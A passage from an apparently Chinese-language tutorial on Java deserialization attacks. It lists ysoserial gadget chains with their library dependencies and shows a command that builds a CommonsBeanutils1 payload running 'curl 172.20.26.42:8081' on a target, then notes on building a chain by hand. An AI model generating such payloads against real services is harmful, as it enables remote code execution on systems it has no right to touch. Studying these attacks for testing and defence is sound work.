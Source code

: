 ```shell script
     CommonsCollections5 @matthias_kaiser, @jasinner            commons-collections:3.1
     CommonsCollections6 @matthias_kaiser                       commons-collections:3.1
     CommonsCollections7 @scristalli, @hanyrax, @EdoardoVignati commons-collections:3.1
     FileUpload1         @mbechler                              commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                               groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser                       javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                              json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser                       javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711            jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser                       js:1.7R2
     MozillaRhino2       @_tint0                                js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                              rome:1.0
     Spring1             @frohoff                               spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                              spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Vaadin1             @kai_ullrich                           vaadin-server:7.7.14, vaadin-shared:7.7.14
     Wicket1             @jacob-baines                          wicket-util:6.23.0, slf4j-api:1.6.4
```

比如如果已知目标程序依赖了`CommonsBeanutils1`对应的依赖`commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2`，
则可以：
```shell script
java -jar ysoserial-all.jar CommonsBeanutils1 'curl 172.20.26.42:8081' | base64
```
生成执行base64的payload。

## 手动构造
可以参考：https://www.leavesongs.com/PENETRATION/commons-beanutils-without-commons-collections.html

手动构造需要写代码，比较繁琐。所以我们以简化的情景来假设。
假设我们直接有了目标程序的jar包，则可以解压得到依赖库(lib目录)，然后新建一个Java项目，把依赖jar包全导入进去。
假设目标程序依赖了`commons-beanutils-1.9.2`，我们从mvn核心库可以看到它存在CVE:
https://mvnrepository.com/artifact/commons-beanutils/commons-beanutils/1.9.2
{% img /images/2022-10/cve.png 800 1200 cve %}
